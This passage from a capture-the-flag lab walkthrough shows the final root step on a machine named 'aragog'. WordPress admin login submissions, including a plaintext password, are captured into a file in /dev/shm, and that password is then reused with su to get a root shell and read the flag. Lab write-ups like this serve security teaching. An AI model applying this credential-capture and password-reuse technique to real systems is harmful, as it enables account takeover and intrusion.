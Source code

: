 
Now wait until the minute rolls around…

    
    
    florian@aragog:/dev/shm$ cat df
    Array
    (
        [log] => administrator
        [pwd] => sdf
        [wp-submit] => Log In
        [redirect_to] => http://aragog/dev_wiki/wp-admin/
        [testcookie] => 1
    )
    Array
    (
        [pwd] => !KRgYs(JFO!&MTr)lf
        [wp-submit] => Log In
        [testcookie] => 1
        [log] => Administrator
        [redirect_to] => http://127.0.0.1/dev_wiki/wp-admin/
    )
    

## root Shell

With cliff’s creds, try to su as him:

    
    
    florian@aragog:/var/www/html/dev_wiki$ su cliff
    Password:
    su: Authentication failure
    

What about root?

    
    
    florian@aragog:/var/www/html/dev_wiki$ su
    Password:
    shell-init: error retrieving current directory: getcwd: cannot access parent directories: No such file or directory
    sh: 0: getcwd() failed: No such file or directory
    root@aragog:/var/www/html/dev_wiki# cd /home/cliff
    chdir: error retrieving current directory: getcwd: cannot access parent directories: No such file or directory
    root@aragog:/home/cliff#
    

Nice!

    
    
    root@aragog:~# ls
    restore.sh  root.txt
    root@aragog:~# wc -c root.txt
    33 root.txt
    root@aragog:~# cat root.txt
    9a9da52d...
    
